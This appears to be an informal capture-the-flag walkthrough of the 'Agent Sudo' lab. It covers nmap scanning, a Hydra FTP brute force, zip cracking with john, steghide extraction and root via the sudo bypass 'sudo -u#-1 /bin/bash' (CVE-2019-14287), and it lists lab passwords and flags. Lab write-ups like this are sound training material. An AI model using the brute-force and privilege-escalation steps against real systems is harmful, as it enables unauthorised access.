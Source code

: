 # Agent Sudo

# first we do scan with nmap we fournd
- 21 ftp
- 22 ssh
- 80 tcp

# second we use burpsute to change agent name until 
Agent C
his name is chris

# third we do brute force on ftp server to get password of chris using hydra
the password is ==> crystal

# we sgin in ftp server and found 
To_agentJ.txt
cute-alien.jpg
cutie.png
= and we get them to our device

the massage in to_agent.txt told us there is password in photos 

# we use binwalk on cutie.png 
wefoud
hidden dir:
  365
  365.zlib
  8702.zip
  To_agentR.txt

# and we use john to crack password of zip fiel
=> zip2john 8702.zip > new.txt

=> john new.txt 

=== found password : alien 

# and use 7z tool 

=> 7z e 8702.zip
and enter the password : alien 

and after that we cat To_agentR.txt

and wefound steg password: Area51

# then use steghide -extract -sf cute-alien.jpg
and we foud "message.txt"
the message is to 
  james
and it says his login password is ``hackerrules!``

# now we connect to ssh using james@10.10.130.39
and we found userflag.txt: b03d975e8c92a7c04146cfa7a5a313c7

and found image Alien_autospy.jpg 
i did search on it on google photos and found that is Roswell
# now i need to do previllage esclation 
== ``sudo -l``
i found :
           (ALL, !root) /bin/bash
i search for it on exploit DB i found :
         CVE-2019-14287
         sudo -u#-1 /bin/bash  == i run this command and i became root ==
and i found root flag in /root
     flag : b53a02f55b57d4439e3341834d70c062
and the name of agent R was in the same file it was DesKel
